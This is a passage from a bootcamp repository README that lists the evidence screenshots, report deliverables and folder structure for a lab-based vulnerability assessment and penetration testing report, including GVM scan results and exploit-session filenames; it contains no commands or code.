| [`12_gvm_web_dashboard_syncing.png`](evidence/12_gvm_web_dashboard_syncing.png) | Figure Evidence | Greenbone Security Assistant web dashboard on port 9392 |
| [`13_gvm_ps_syncing_process.jpg`](evidence/13_gvm_ps_syncing_process.jpg) | Figure Evidence | Active `gvmd` and PostgreSQL database `COPY` streaming |
| [`14_gvm_feed_status_progress.png`](evidence/14_gvm_feed_status_progress.png) | Figure Evidence | GVM Feed Status showing all feeds (NVT, SCAP, CERT, GVMD_DATA) Current |
| [`15_gvm_scan_completed.png`](evidence/15_gvm_scan_completed.png) | Figure Evidence | Completed GVM scan dashboard on 10.50.20.30 with 10.0 (Critical) severity |
| [`S07_Vulnerability_Assessment_and_Penetration_Testing_Report.docx`](S07_Vulnerability_Assessment_and_Penetration_Testing_Report.docx) | Deliverable Word | Official Formatted Microsoft Word Report Deliverable with all figures embedded |
| [`S07_Vulnerability_Assessment_and_Penetration_Testing_Report.pdf`](S07_Vulnerability_Assessment_and_Penetration_Testing_Report.pdf) | Deliverable PDF | Official Formatted Client PDF Deliverable |

---

## 🗂️ Repository Structure

```text
pseb-deploy-bootcamp/
├── README.md
├── s01-foundations/
├── s06-scanning/
│   ├── README.md
│   ├── S06_Vulnerability_Scanning_Lab_Report.pdf
│   └── evidence/
└── s07-report/
    ├── README.md
    ├── S07_Vulnerability_Assessment_and_Penetration_Testing_Report.pdf
    └── evidence/
        ├── 01_network_verification.txt
        ├── 02_nmap_services.txt
        ├── 02_nmap_service_scan_part1.jpg
        ├── 02_nmap_service_scan_part2.jpg
        ├── 02_nmap_service_scan_part3.jpg
        ├── 03_msf_vsftpd_exploit.txt
        ├── 03_msf_vsftpd_exploit_session.jpg
        ├── 04_post_exploit_root_proof.txt
        ├── 05_post_exploitation.txt
        ├── 06_ssh_default_credentials_login.jpg
        ├── 08_msf_samba_root_shell.txt
        ├── 11_gvm_check_setup_success.txt
        ├── 12_gvm_web_dashboard_syncing.png
        ├── 13_gvm_ps_syncing_process.jpg
        ├── 14_gvm_feed_status_progress.jpg
        └── tracker.md
```

---

<p align="center">
  <strong>SC-500 | Pakistan Software Export Board (PSEB) DEPLOY BootCamp</strong><br>
  <span>Digital Forensics & Cyber Security — Day 3 Deliverable</span><br>
  <sub>Instructor: Waseem Abbas Khan — Senior Cybersecurity Specialist, CEI Master Trainer</sub>
</p>
